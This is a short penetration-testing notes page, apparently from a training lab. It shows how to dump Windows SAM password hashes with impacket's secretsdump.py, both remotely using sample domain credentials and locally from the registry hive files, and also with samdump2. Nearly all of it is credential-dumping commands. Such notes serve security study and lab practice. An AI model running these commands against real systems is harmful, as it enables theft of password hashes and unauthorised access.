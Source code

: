 **This tool is part of impacket suite.**
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py
```
#### Remotely with Creds
Dumping SAM hashes remotely with valid credentials.
```python
secretsdump.py marvel/fcastle:Password1@$TARGET
```
![[Pasted image 20220119120903.png]]
```python
secretsdump.py marvel/pparker:Password2@$TARGET
```
#### Locally with secretsdump.py
Dumping SAM hashes locally on target box.
```bash - kali
cd Windows/System32/config
```
```bash - kali
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
#### Locally with samdump2
Dumping SAM hashes locally on target box.
```bash - kali
cd Windows/System32/config
```
```bash - kali
samdump2 ./SYSTEM ./SAM
```